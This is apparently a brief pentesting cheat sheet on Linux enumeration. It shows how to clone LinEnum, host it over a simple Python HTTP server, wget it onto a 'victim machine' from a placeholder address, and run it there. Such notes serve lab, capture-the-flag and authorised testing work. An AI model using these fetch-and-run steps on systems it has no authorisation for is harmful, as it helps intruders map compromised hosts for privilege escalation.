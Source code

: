 # Linux Enumeration

git clone https://github.com/rebootuser/LinEnum.git

### From the directory that LinEnum downloaded to start a simple HTTP server.
```
python -m SimpleHTTPServer 80
```

### On the victim machine.
```
wget http://<IP>:<PORT>/LinEnum.sh
```

### Make the shell executable.
```
chmod +x LinEnum.sh
```

### Run the script.
```
./LinEnum.sh
```
